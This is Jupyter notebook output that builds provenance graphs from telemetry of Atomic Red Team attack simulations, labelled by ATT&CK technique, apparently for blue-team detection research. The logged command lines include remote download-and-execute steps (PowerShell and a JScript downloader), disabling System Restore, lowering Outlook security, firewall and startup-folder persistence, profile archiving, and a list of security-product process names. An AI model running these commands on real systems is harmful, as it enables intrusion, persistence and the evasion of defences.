

 26%|██▌       | 43/165 [01:04<02:18,  1.14s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 27%|██▋       | 44/165 [01:05<01:58,  1.03it/s]

Number of relations in the graph: 13
280797 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level"_/t_REG_DWORD_/d_1_/f_&&_mkdir__%APPDATA%\Microsoft\Outlook\_>nul_2>&1_&&_echo_"Atomic_Red_Team_TEST"_>_%APPDATA%\Microsoft\Outlook\VbaProject.OTM&C:\Windows\system32\cmd.exe&cmd.exe&6424
788972 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level"_/t_REG_DWORD_/d_1_/f_&C:\Windows\system32\reg.exe&reg.exe&3472
646113 : C:\Users\ezk\AppData\Roaming\Microsoft\Outlook
719232 : C:\Users\ezk\AppData\Roaming\Microsoft\Outlook\VbaProject.OTM
776716 : HKCU\Software\Microsoft\Office\16.0\Outlook\Security\Level
../graph_others2/T1137_12ad9edefc86af07700fbf49bfdac6ba.png has been generated!
T1074.001_e6dfc7e89359ac6fa6de84b0e1d5762e


<Figure size 432x288 with 0 Axes>



 27%|██▋       | 45/165 [01:05<01:37,  1.23it/s]

Number of relations in the graph: 12
543224 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$url_=_'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm';_[Net.ServicePointManager]::SecurityProtocol_=_[Net.SecurityProtocolType]::Tls12;_Invoke-WebRequest_-Uri_$url_-OutFile_$env:TEMP\PhishingAttachment.xlsm"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8824
367332 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-109-133.github.com:https
422515 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat\"_-OutFile_$env:TEMP\discovery.bat"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11028
524797 : C:\Users\ezk\AppData\Local\Temp\discovery.bat
../graph_others2/T1074.001_e6dfc7e89359ac6fa6de84b0e1d5762e.png has been generated!
T1566.001_1afaec09315ab71fdfb167175e8a019a


<Figure size 432x288 with 0 Axes>



 28%|██▊       | 46/165 [01:06<01:23,  1.43it/s]

Number of relations in the graph: 12
422515 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat\"_-OutFile_$env:TEMP\discovery.bat"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11028
367332 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-109-133.github.com:https
543224 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$url_=_'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm';_[Net.ServicePointManager]::SecurityProtocol_=_[Net.SecurityProtocolType]::Tls12;_Invoke-WebRequest_-Uri_$url_-OutFile_$env:TEMP\PhishingAttachment.xlsm"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8824
40538 : C:\Users\ezk\AppData\Local\Temp\PhishingAttachment.xlsm
../graph_others2/T1566.001_1afaec09315ab71fdfb167175e8a019a.png has been generated!
T1562.004_41627f71f968225b9f162cb76d16bd9d


<Figure size 432x288 with 0 Axes>



 28%|██▊       | 47/165 [01:06<01:13,  1.62it/s]

Number of relations in the graph: 11
478900 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Copy-Item_f7ce09_AtomicTest.exe_-Destination_\"C:\Users\$env:UserName\"_-Force;_netsh_advfirewall_firewall_add_rule_name=\"Atomic_Test\"_dir=in_action=allow_program=\"C:\Users\$env:UserName\AtomicTest.exe\"_enable=yes"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10792
656346 : C:\Windows\System32\f7ce09_AtomicTest.exe
296769 : C:\Users\ezk\f7ce09_AtomicTest.exe
549660 : "C:\Windows\system32\netsh.exe"_advfirewall_firewall_add_rule_"name=Atomic_Test"_dir=in_action=allow_program=C:\Users\ezk\AtomicTest.exe_enable=yes&C:\Windows\system32\netsh.exe&netsh.exe&10752
../graph_others2/T1562.004_41627f71f968225b9f162cb76d16bd9d.png has been generated!
T1105_0856c235a1d26113d4f2d92e39c9a9f8


<Figure size 432x288 with 0 Axes>



 29%|██▉       | 48/165 [01:06<01:05,  1.78it/s]

Number of relations in the graph: 11
141662 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(New-Object_Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt')_|_Out-File_LICENSE.txt;_Invoke-Item_LICENSE.txt"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3760
592840 : C:\Windows\System32\LICENSE.txt
56231 : C:\Windows\System32\LICENSE.txt:Zone.Identifier
260077 : "C:\Windows\system32\NOTEPAD.EXE"_C:\Windows\system32\LICENSE.txt&C:\Windows\system32\NOTEPAD.EXE&NOTEPAD.EXE&10068
../graph_others2/T1105_0856c235a1d26113d4f2d92e39c9a9f8.png has been generated!
T1490_c8f329d2847ede593b6cb4a1ec6120fb


<Figure size 432x288 with 0 Axes>



 30%|██▉       | 49/165 [01:07<01:07,  1.72it/s]

Number of relations in the graph: 10
307887 : cmd.exe_/C_reg_add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"_/d_"1"_/f_&&_reg_add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableSR"_/t_"REG_DWORD"_/d_"1"_/f_&&_reg_add_"HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"_/d_"1"_/f_&&_reg_add_"HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\SystemRestore"_/v_"DisableSR"_/t_"REG_DWORD"_/d_"1"_/f&C:\Windows\system32\cmd.exe&cmd.exe&4752
579006 : reg__add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"_/d_"1"_/f_&C:\Windows\system32\reg.exe&reg.exe&5948
714485 : reg__add_"HKLM\SOFTWARE\Policies\Microsoft\Windows_NT\SystemRestore"_/v_"DisableSR"_/t_"REG_DWORD"_/d_"1"_/f_&C:\Windows\system32\reg.exe&reg.exe&5700
713188 : reg__add_"HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\SystemRestore"_/v_"DisableConfig"_/t_"REG_DWORD"

<Figure size 432x288 with 0 Axes>



 30%|███       | 50/165 [01:08<01:08,  1.67it/s]

Number of relations in the graph: 10
7381 : powershell.exe_-ExecutionPolicy_Bypass_-C_"cmd.exe_/c_\"net_user\"_>>_C:\Windows\temp\history.log;cmd.exe_/c_\"whoami_/priv\"_>>_C:\Windows\temp\history.log;cmd.exe_/c_\"netstat_-ano\"_>>_C:\Windows\temp\history.log;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2340
715325 : C:\Windows\Temp\history.log
395071 : "C:\Windows\system32\cmd.exe"_/c_"net_user"&C:\Windows\system32\cmd.exe&cmd.exe&5004
591883 : "C:\Windows\system32\cmd.exe"_/c_"whoami_/priv"&C:\Windows\system32\cmd.exe&cmd.exe&5204
73379 : "C:\Windows\system32\cmd.exe"_/c_"netstat_-ano"&C:\Windows\system32\cmd.exe&cmd.exe&10716
../graph_others2/T1059.001_55678719-e76e-4df9-92aa-10655bbd1cf4.png has been generated!
T1204.002_522f3f35cd013e63830fa555495a0081


<Figure size 432x288 with 0 Axes>



 31%|███       | 51/165 [01:09<01:17,  1.47it/s]

Number of relations in the graph: 10
771892 : cmd.exe_/C_echo_var_url_=_"https://128.30.52.100/TR/PNG/iso_8859-1.txt",_fso_=_WScript.CreateObject('Scripting.FileSystemObject'),_request,_stream;_request_=_WScript.CreateObject('MSXML2.ServerXMLHTTP');_request.open('GET',_url,_false);_request.send();_if_(request.status_===_200)_{stream_=_WScript.CreateObject('ADODB.Stream');_stream.Open();_stream.Type_=_1;_stream.Write(request.responseBody);_stream.Position_=_0;_stream.SaveToFile(filename,_1);_stream.Close();}_else_{WScript.Quit(1);}WScript.Quit(0);_>_%TEMP%\OSTapGet.js_&&_cscript_//E:Jscript_%TEMP%\OSTapGet.js&C:\Windows\system32\cmd.exe&cmd.exe&3616
307080 : C:\Users\ezk\AppData\Local\Temp\OSTapGet.js
687242 : cscript__//E:Jscript_C:\Users\ezk\AppData\Local\Temp\OSTapGet.js&C:\Windows\system32\cscript.exe&cscript.exe&5992
../graph_others2/T1204.002_522f3f35cd013e63830fa555495a0081.png has been generated!
T1547.009_501af516bd8b24fee0c7c650ae5cc861


<Figure size 432x288 with 0 Axes>



 32%|███▏      | 52/165 [01:09<01:10,  1.60it/s]

Number of relations in the graph: 10
737071 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$Shell_=_New-Object_-ComObject_(\"WScript.Shell\");_$ShortCut_=_$Shell.CreateShortcut(\"$env:APPDATA\Microsoft\Windows\Start_Menu\Programs\Startup\T1547.009.lnk\");_$ShortCut.TargetPath=\"cmd.exe\";_$ShortCut.WorkingDirectory_=_\"C:\Windows\System32\";_$ShortCut.WindowStyle_=_1;_$ShortCut.Description_=_\"T1547.009.\";_$ShortCut.Save();_$Shell_=_New-Object_-ComObject_(\"WScript.Shell\");_$ShortCut_=_$Shell.CreateShortcut(\"$env:ProgramData\Microsoft\Windows\Start_Menu\Programs\Startup\T1547.009.lnk\");_$ShortCut.TargetPath=\"cmd.exe\";_$ShortCut.WorkingDirectory_=_\"C:\Windows\System32\";_$ShortCut.WindowStyle_=_1;_$ShortCut.Description_=_\"T1547.009.\";_$ShortCut.Save()"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1392
558899 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\T1547.009.lnk
475985 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows

<Figure size 432x288 with 0 Axes>



 32%|███▏      | 53/165 [01:09<01:00,  1.84it/s]

Number of relations in the graph: 10
124215 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Copy-Item_C:\Windows\system32\conhost.exe_C:\Windows\system32\staged"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&6268
32704 : C:\Windows\System32\conhost.exe
333569 : C:\Windows\System32\staged\conhost.exe
../graph_others2/T1074.001_4e97e699-93d7-4040-b5a3-2e906a58199e.png has been generated!
T1564.001_66a5fd5f244819181f074dd082a28905


<Figure size 432x288 with 0 Axes>



 33%|███▎      | 54/165 [01:10<00:57,  1.94it/s]

Number of relations in the graph: 9
362145 : attrib.exe__+s_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7128
55571 : C:\Users\ezk\AppData\Local\Temp\T1564.001.txt
88525 : cmd.exe_/C_attrib.exe_+h_%temp%\T1564.001.txt&C:\Windows\system32\cmd.exe&cmd.exe&8904
646363 : attrib.exe__+h_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7112
../graph_others2/T1564.001_66a5fd5f244819181f074dd082a28905.png has been generated!
T1564.001_dce51e632abdfe5392c7c1f942ac9273


<Figure size 432x288 with 0 Axes>



 33%|███▎      | 55/165 [01:10<00:53,  2.06it/s]

Number of relations in the graph: 9
646363 : attrib.exe__+h_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7112
55571 : C:\Users\ezk\AppData\Local\Temp\T1564.001.txt
311301 : cmd.exe_/C_attrib.exe_+s_%temp%\T1564.001.txt&C:\Windows\system32\cmd.exe&cmd.exe&4804
362145 : attrib.exe__+s_C:\Users\ezk\AppData\Local\Temp\T1564.001.txt&C:\Windows\system32\attrib.exe&attrib.exe&7128
../graph_others2/T1564.001_dce51e632abdfe5392c7c1f942ac9273.png has been generated!
T1069.001_5c4dd985-89e3-4590-9b57-71fed66ff4e2


<Figure size 432x288 with 0 Axes>



 34%|███▍      | 56/165 [01:11<00:49,  2.19it/s]

Number of relations in the graph: 9
275082 : powershell.exe_-ExecutionPolicy_Bypass_-C_"gpresult_/R"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&7912
560677 : "C:\Windows\system32\gpresult.exe"_/R&C:\Windows\system32\gpresult.exe&gpresult.exe&9132
719436 : DESKTOP-BA1RQFC.blueteam.com&192.168.48.10:epmap
559320 : DESKTOP-BA1RQFC.blueteam.com&192.168.48.10:49667
../graph_others2/T1069.001_5c4dd985-89e3-4590-9b57-71fed66ff4e2.png has been generated!
T1547.009_b6e5c895c6709fe289352ee23f062229


<Figure size 432x288 with 0 Axes>



 35%|███▍      | 57/165 [01:11<00:47,  2.25it/s]

Number of relations in the graph: 8
154039 : cmd.exe_/C_echo_[InternetShortcut]_>_%temp%\T1547.009_modified_shortcut.url_&&_echo_URL=C:\windows\system32\calc.exe_>>_%temp%\T1547.009_modified_shortcut.url_&&_%temp%\T1547.009_modified_shortcut.url&C:\Windows\system32\cmd.exe&cmd.exe&7468
442184 : C:\Users\ezk\AppData\Local\Temp\T1547.009_modified_shortcut.url
422292 : C:\Users\ezk\AppData\Local\Temp\T1547.009_modified_shortcut.url:Zone.Identifier
680954 : "C:\windows\system32\calc.exe"_&C:\windows\system32\calc.exe&calc.exe&10756
../graph_others2/T1547.009_b6e5c895c6709fe289352ee23f062229.png has been generated!
T1217_69bbe2183fa09c00ccaac62d48e214f8


<Figure size 432x288 with 0 Axes>



 35%|███▌      | 58/165 [01:12<00:54,  1.97it/s]

Number of relations in the graph: 8
645067 : powershell.exe_-ExecutionPolicy_Bypass_-C_"dir_$env:USERPROFILE_-Recurse_|_Compress-Archive_-DestinationPath_$env:USERPROFILE\T1560-data-ps.zip"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10444
726713 : C:\Users\ezk\Favorites\*
159335 : C:\Users\ezk\Favorites
338951 : C:\Users\ezk\Favorites\Links\*
401112 : C:\Users\ezk\Favorites\Links
../graph_others2/T1217_69bbe2183fa09c00ccaac62d48e214f8.png has been generated!
T1059.003_6c318ef0339d74d909ad556681b6493e


<Figure size 432x288 with 0 Axes>



 36%|███▌      | 59/165 [01:12<00:51,  2.08it/s]

Number of relations in the graph: 7
179773 : cmd.exe_/C_%LOCALAPPDATA:~-3,1%md_/c_echo_Hello,_from_CMD!_>_hello.txt_&_type_hello.txt&C:\Windows\system32\cmd.exe&cmd.exe&3824
340259 : C:\Windows\System32\hello.txt
1083 : cmd__/c_echo_Hello&C:\Windows\system32\cmd.exe&cmd.exe&4072
491765 : cmd__/c_echo_Hello,_from_CMD!__&C:\Windows\system32\cmd.exe&cmd.exe&4072
../graph_others2/T1059.003_6c318ef0339d74d909ad556681b6493e.png has been generated!
T1057_8adf02e8-6e71-4244-886c-98c402857404


<Figure size 432x288 with 0 Axes>



 36%|███▋      | 60/165 [01:13<00:46,  2.27it/s]

Number of relations in the graph: 7
249632 : powershell.exe_-ExecutionPolicy_Bypass_-C_"tasklist_/m__>>_$env:APPDATA\vmtool.log;cat_$env:APPDATA\vmtool.log"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10232
545864 : C:\Users\ezk\AppData\Roaming\vmtool.log
